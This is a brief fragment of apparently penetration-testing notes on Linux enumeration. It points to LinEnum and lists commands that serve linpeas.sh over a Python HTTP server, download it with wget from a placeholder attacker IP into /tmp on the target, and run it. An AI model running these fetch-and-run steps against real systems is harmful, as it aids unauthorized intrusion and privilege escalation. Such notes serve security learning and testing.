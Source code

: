 How to enumerate?

- Use https://github.com/rebootuser/LinEnum

		python3 -m http.server
		
		cd /tmp
		
		wget http://[attacker ip]:port/linpeas.sh
		
		./linpeas.sh